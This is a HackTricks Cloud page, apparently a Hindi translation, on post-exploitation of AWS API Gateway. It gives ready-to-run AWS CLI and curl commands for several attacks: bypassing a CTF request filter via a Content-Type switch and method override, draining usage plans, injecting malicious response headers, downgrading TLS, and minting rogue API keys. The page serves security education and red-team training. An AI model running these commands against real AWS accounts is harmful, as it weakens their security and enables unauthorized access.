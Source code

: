 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अनएक्सपोज़्ड APIs तक पहुँचें

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) में `com.amazonaws.us-east-1.execute-api` सेवा के साथ एक एंडपॉइंट बना सकते हैं, उस नेटवर्क में एंडपॉइंट को एक्सपोज़ करें जहाँ आपके पास पहुँच है (संभवतः एक EC2 मशीन के माध्यम से) और सभी कनेक्शनों की अनुमति देने वाले सुरक्षा समूह को असाइन करें।\
फिर, EC2 मशीन से आप एंडपॉइंट तक पहुँच सकते हैं और इसलिए उस गेटवे API को कॉल कर सकते हैं जो पहले एक्सपोज़ नहीं किया गया था।

### अनुरोध शरीर पासथ्रू बायपास करें

यह तकनीक [**इस CTF लेखन**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp) में पाई गई थी।

जैसा कि [**AWS दस्तावेज़**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) में `PassthroughBehavior` अनुभाग में संकेतित है, डिफ़ॉल्ट रूप से, मान **`WHEN_NO_MATCH`** , जब अनुरोध के **Content-Type** हेडर की जांच की जाती है, तो अनुरोध को बिना किसी परिवर्तन के बैक एंड पर पास करेगा।

इसलिए, CTF में API Gateway के पास एक इंटीग्रेशन टेम्पलेट था जो **एक प्रतिक्रिया में ध्वज को एक्सफिल्ट्रेट करने से रोक रहा था** जब एक अनुरोध `Content-Type: application/json` के साथ भेजा गया था:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

हालांकि, **`Content-type: text/json`** के साथ एक अनुरोध भेजने से उस फ़िल्टर को रोका जा सकता है।

अंत में, चूंकि API Gateway केवल `Get` और `Options` की अनुमति दे रहा था, इसलिए किसी भी सीमा के बिना एक मनमाना dynamoDB क्वेरी भेजना संभव था, जिसमें क्वेरी को बॉडी में भेजकर और हेडर `X-HTTP-Method-Override: GET` का उपयोग किया गया: 

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

In the **Enumeration** section you can see how to **obtain the usage plan** of the keys. If you have the key and it's **limited** to X usages **per month**, you could **just use it and cause a DoS**.

The **API Key** just need to be **included** inside a **HTTP header** called **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateGatewayResponse` and `apigateway:CreateDeployment` can **modify an existing Gateway Response to include custom headers or response templates that leak sensitive information or execute malicious scripts**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुर्भावनापूर्ण स्क्रिप्ट का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` की अनुमति है, **एक मौजूदा API गेटवे स्टेज को ट्रैफ़िक को एक अलग स्टेज पर पुनर्निर्देशित करने या कैशिंग सेटिंग्स को बदलने के लिए संशोधित कर सकता है ताकि कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त की जा सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफ़िक को बाधित या इंटरसेप्ट करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` की अनुमति है, **एक मौजूदा API गेटवे REST API विधि के विधि प्रतिक्रिया को संशोधित कर सकता है ताकि कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल किए जा सकें जो संवेदनशील जानकारी लीक करते हैं या दुर्भावनापूर्ण स्क्रिप्ट निष्पादित करते हैं**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुर्भावनापूर्ण स्क्रिप्ट का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` की अनुमति है, **API गेटवे REST API सेटिंग्स को लॉगिंग को अक्षम करने या न्यूनतम TLS संस्करण को बदलने के लिए संशोधित कर सकता है, जो संभावित रूप से API की सुरक्षा को कमजोर कर सकता है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, संभावित रूप से अनधिकृत पहुंच की अनुमति देना या संवेदनशील जानकारी को उजागर करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास अनुमतियाँ `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` हैं, वह **नए API कुंजी बना सकता है, उन्हें उपयोग योजना के साथ जोड़ सकता है, और फिर इन कुंजियों का उपयोग API तक अनधिकृत पहुंच के लिए कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को बायपास करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
